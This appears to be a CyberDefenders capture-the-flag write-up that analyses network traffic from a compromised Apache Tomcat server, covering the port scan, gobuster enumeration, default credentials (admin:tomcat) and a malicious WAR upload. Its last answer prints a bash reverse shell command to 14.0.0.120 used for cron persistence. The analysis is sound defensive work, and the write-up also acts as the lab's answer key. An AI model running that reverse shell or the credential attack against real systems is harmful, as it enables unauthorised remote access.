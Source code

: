 # TomcatTakeover

# Details

Instructions:

Uncompress the lab (pass: cyberdefenders.org)
Scenario:

Our SOC team has detected suspicious activity on one of the web servers within the company's intranet. In order to gain a deeper understanding of the situation, the team has captured network traffic for analysis. This pcap file potentially contains a series of malicious activities that have resulted in the compromise of the Apache Tomcat web server. We need to investigate this incident further.

Tools:

Wireshark
NetworkMiner

# Solution

## Question 1
**Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. Can you identify the source IP address responsible for initiating these requests on our server?**

The question is asking us to find the IP address that is performing a port scannin operation on our network. To find this we can go ahead and go to Statistics > Endpoints > TCP to get a better idea as to which IP address is making the most requests to different port numbers.

![Endpoint](https://github.com/user-attachments/assets/da7cd5bb-1de0-4846-9e36-881d1b43619e)

Looking at the results we can see that the IP 14.0.0.120 has made requests to various port numbers most of them being above the common ports range which warrants suspicious behaviour.

### Answer
14.0.0.120

## Question 2
**Based on the identified IP address associated with the attacker, can you ascertain the city from which the attacker's activities originated?**

For this we can simply go to a site like abuseipdp.com and check IP information.

![AbuseIPDP](https://github.com/user-attachments/assets/6d4dc27f-9b99-4b74-93e6-69e96ba54a4a)

### Answer
Guangzhou

## Question 3
**From the pcap analysis, multiple open ports were detected as a result of the attacker's activitie scan. Which of these ports provides access to the web server admin panel?**

For this we can start of by filtering for HTTP packets, since the question is asking to find the port relating to a web server which communicates in HTTP.

![http](https://github.com/user-attachments/assets/d5d8dfe8-ce82-47fe-805d-32adb8b0aefc)

This gives us a bunch of packets. Now let's try narrowing it down even further. We can go to Statistics > Conversations to get a clear look into what ports are involved in the HTTP packets.

![ports](https://github.com/user-attachments/assets/3ecdd6e0-7d54-4f0b-82a4-c28bf1b78c10)

Looking at the results it seems there is only one port involved in HTTP which is 8080 which we can safely conclude that this is the correct answer. Should there have been more ports than one which is unlikely we could have gone on to filter for the ports that involve an admin page.

### Answer
8080

## Question 4
**Following the discovery of open ports on our server, it appears that the attacker attempted to enumerate and uncover directories and files on our web server. Which tools can you identify from the analysis that assisted the attacker in this enumeration process?**

Looking at the HTTP packets we can see a bunch of requests that are made in a short period of time indicating an automation. This is typical behaviour for directory busting software.

![dirbust_sus](https://github.com/user-attachments/assets/26c67847-8f04-42b5-9170-d817032451c1)


Looking at one of these packets reveals to us the tool used by the attacker

![proof](https://github.com/user-attachments/assets/385c7c96-6bf3-4a39-916d-7af6457b3edf)


### Answer
gobuster

## Question 5
**Subsequent to their efforts to enumerate directories on our web server, the attacker made numerous requests trying to identify administrative interfaces. Which specific directory associated with the admin panel was the attacker able to uncover?**

To find this we can use the filter 'http.request or http.response.code != 404' this filter will filter for HTTP Requests and Responses for the pages that exist within the server. This will allow us to more efficiently sift through the data.

After sifting through the data we stumble across the admin panel


![admin](https://github.com/user-attachments/assets/95880ed0-cdd9-4d18-911e-b247f587bdd0)

We can see a request for /manager/html which provides a response of Unauthorized telling us that the /manager is only accessible to admins.

### Answer
/manager

## Question 6
**Upon accessing the admin panel, the attacker made attempts to brute-force the login credentials. From the data, can you identify the correct username and password combination that the attacker successfully used for authorization?**

To find this we can look through all the requests to /manager/html until we find a response OK to that request.


![OK](https://github.com/user-attachments/assets/30243610-fff4-432f-b637-8aea2167e464)

We can see that after a series of unsuccessful attempts the attacker gets an OK response from the server indicating that the credentials worked. To look at what credentials they used we can check the Authorization header under the HTTP data in the Packet

![credentials](https://github.com/user-attachments/assets/0fcc4cfa-4dc0-4dcb-9c54-7200a3142319)

### Answer
admin:tomcat

## Question 7
**Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?**

To find this we can filter for POST packets. This can be done using the filter 'http.request.method == POST'.

![POST](https://github.com/user-attachments/assets/903d536a-a692-4d24-80a1-ddd090d2e557)

We can see that there is only 1 POST packet, looking into the packet information we can see what file was uploaded.

![file](https://github.com/user-attachments/assets/9b4a918f-43f4-47f1-91df-85cd402139df)

### Answer
JXQOZY.war

## Question 8
**Upon successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?**

To find this we can look for a request to the file that was uploaded, since the server needs to run the file for the commands to be executed, and then look at subsequent connections between the attacker and the server to find any commands run by the attacker

![search](https://github.com/user-attachments/assets/2144f96b-fb0c-43b1-ba90-0dd75e56f202)

We can see that the attacker sent a request to GET /JXQOZY/ indicating that the attacker tried to run the malicious file that we uncovered in the previous question. We can see a few packets later that the server sends an OK response indicating that the malicious file was opened. Looking at the next few packets we stumble upon a packet which has 'whoami' as part of it's data. whoami is a common command which is used by attackers to find out what account they are currently using. Following this TCP Stream we can uncover all the other commands run by the attacker.

![persistence](https://github.com/user-attachments/assets/fe764159-e959-4215-9f71-edd1ad1d0c8c)

We can see that there is a command for cron, which is a task scheduler for Unix like operating systems, which is commonly used for persistence by attacker.

### Answer
/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'
